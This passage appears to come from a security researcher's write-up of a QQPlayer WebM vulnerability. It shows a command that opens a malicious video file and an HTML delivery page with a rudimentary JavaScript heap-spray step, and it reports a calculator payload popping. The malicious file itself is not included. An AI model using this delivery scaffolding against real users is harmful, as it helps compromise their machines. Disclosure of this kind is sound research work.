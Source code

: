 ## Proof of Concept Development

### Attack Vector Analysis

The vulnerability can be exploited through multiple delivery mechanisms:

**Local File Attack:**
```bash
# Direct file execution
QQPlayer.exe malicious.webm
```

**Web-Based Attack:**
```html
<!-- Malicious web page -->
<!DOCTYPE html>
<html>
<head>
    <title>QQPlayer WebM Exploit</title>
</head>
<body>
    <h1>Video Player Demo</h1>
    <video controls>
        <source src="malicious.webm" type="video/webm">
        Your browser does not support the video tag.
    </video>
    
    <script>
        // Additional JavaScript for environment preparation
        function prepareExploit() {
            // Heap spray preparation if needed
            var chunks = [];
            for (var i = 0; i < 100; i++) {
                chunks[i] = new Array(1000).join("A");
            }
            return chunks;
        }
        
        window.onload = function() {
            var spray = prepareExploit();
            console.log("Environment prepared");
        };
    </script>
</body>
</html>
```

Execution success:
![QQPlayer exploitation demonstration](/assets/blog/images/QQ_4.png)
*Complete QQPlayer exploitation proof of concept with calculator payload execution*


